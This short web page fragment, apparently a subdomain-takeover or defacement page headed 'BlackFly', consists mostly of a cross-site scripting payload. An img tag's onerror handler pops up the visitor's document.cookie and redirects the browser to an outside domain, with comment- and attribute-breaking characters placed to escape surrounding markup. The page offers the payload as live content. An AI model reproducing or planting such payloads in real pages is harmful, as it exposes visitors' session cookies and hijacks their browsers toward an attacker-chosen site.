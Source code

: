 <h1>BlackFly</h1>

SubDomain Takeover


<iframe>13"-->">'` -- `<!--<img src="--><img src=x onerror=(prompt)(`Ex.Mi`);(prompt)(document.cookie);location=`https://ex-mi.ru`;>
